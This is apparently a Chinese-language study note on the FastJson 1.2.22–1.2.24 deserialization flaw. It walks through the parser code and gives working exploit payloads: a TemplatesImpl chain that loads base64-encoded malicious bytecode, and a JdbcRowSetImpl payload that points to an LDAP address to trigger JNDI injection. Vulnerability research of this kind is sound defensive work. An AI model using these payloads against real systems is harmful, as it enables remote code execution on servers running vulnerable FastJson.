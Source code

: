 # 2.2FastJson1.2.22-1.2.24 反序列化分析

## 1.漏洞原理

FastJson 反序列化是因为未对`@type`字段进行有效的校验导致可以传入恶意的类且反序列化的时候会自动调用`setter`和无参构造器，在某些情况下会调用`getter`，当这些方法存在利用点的时候，我们通过传入可控利用点成员变量进行攻击利用。

Fastjson通过parse、parseObject处理以json结构传入的类的字符串形时，会默认调用该类的共有setter与构造函数，并在合适的触发条件下调用该类的getter方法。当传入的类中setter、getter方法中存在利用点时，攻击者就可以通过传入可控的类的成员变量进行攻击利用

## 2.利用分析

### 2.1 TemplateImpl

#### (1).利用链分析

在CC3中，有涉及到关于`TemplatesImpl`链的利用，其中涉及到3个变量为：`_name、_bytecodes、_tfactory`。在刚开始的漏洞原理中提到，fastjson在解析json字符串的时候，会去调用getter方法，

所以说，只解析的json字符串中存在`_outputProperties`的键值对，那么在解析的过程中会调用到`TemplatesImpl#getOutputProperties()`，代码如下：

<img src="./img/image-20240416150617547.png" alt="image-20240416150617547" style="zoom:89%;text-align=center;" />

然后再接着调用`newTransformer()`后就是字节码的加载，这部分内容可以参考CC3,了解这一点之后，可能会想立马构造exp，但是能成功吗？如果进行的构造如下：

```java
  byte[] bytes = Files.readAllBytes(Paths.get("Exp.class"));
  String text = "{\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\"," +
          "\"_bytecodes\":"+ Arrays.toString(bytes) +"," +
          "'_name':'me7eorite'," +
          "'_tfactory':{ }," +
          "\"_outputProperties\":{ }" +
          "}";
  Object obj = JSON.parseObject(text,Feature.SupportNonPublicField);
```

编译器是会产生格式错误的报错，显然这种方式是不行的，fastjson应该有自己的处理逻辑，所以往下需要分析一下它的解析过程。



在FastJson解析过程中，关键代码位于`DefaultJSONParser#parseObject()`中，其中关键位置如下：

<img src="./img/image-20240416151603853.png" alt="image-20240416151603853" style="zoom:50%;text-align=center;" />

在该位置，通过传入的`@type`获取到需要转化的类，对于后续版本中，该类还会涉及到黑名单的绕过。

往下就涉及到field的处理，主要的处理方式是在于`ObjectArrayCodec#deserialze(...)`中

<img src="./img/image-20240416155420886.png" alt="image-20240416155420886" style="zoom:59%;text-align=center;" />

传入后会先判断token的类型，然后采取指定的操作方式，例如：传入的是`_bytecodes`后会进行base64解码：

<img src="./img/image-20240416155239841.png" alt="image-20240416155239841" style="zoom:87%;" />

根据以上的分析，这个构造方式就很清晰的：

1. 利用`TemplatesImpl`触发，需要`_name、_tfactory、_bytecodes`变量
2. 为了触发getter，需要定义`_outputProperties`
3. `_bytecodes`赋值的时候存在base64解码，需要编码。

修改以上的exp，增加一个base64编码即可：

```java
  byte[] bytes = Files.readAllBytes(Paths.get("/Users/me7eorite/Documents/GitHub/Learning-Demo/JavaStudy/target/classes/Exp.class"));
  String s = Base64.getEncoder().encodeToString(bytes);

  String text = "{\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\"," +
          "\"_bytecodes\":[\""+s+"\"]," +
          "'_name':'me7eorite'," +
          "'_tfactory':{ }," +
          "\"_outputProperties\":{ }" +
          "}";
  Object obj = JSON.parseObject(text,Feature.SupportNonPublicField);
```

当构造上述exp的时，或许会产生疑问：构造fastjson反序列化自动调用setter？但是，类中并没有`SetName()`。为什么还能够正常赋值？

因为,增加配置`Feature.SupportNonPublicField`到私有属性会通过反射赋值，其代码位于`FieldDeserializer#setValue(...)`。部分代码如下：

<img src="./img/image-20240416220724322.png" alt="image-20240416220724322" style="text-align=center;" />

## 2.2 JdbcRowSetImpl

### (1).利用链分析

```java
String payload = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://0.0.0.0:1389/owst18\",\"autoCommit\":true}";
JSONObject.parse(payload);
```

根据之前的分析，FastJson反序列化的时候会调用setter，在该exp中，通过`setAutoCommit(...)`调用到`this.connect()`

<img src="./img/image-20240416231849467.png" alt="image-20240416231849467" style="text-align=center;" />

在`this.connect()`中，存在var1.lookup(...)，判断如果参数可控，这个位置是可以触发JNDI注入的。

<img src="./img/image-20240416231932496.png" alt="image-20240416231932496" style="text-align=center;" />

配置一个dataSourceName，需要注意的是在exp中这键值对的顺序是不能够随意变化的，FastJson反序列化的时候会按照顺序调用setter。

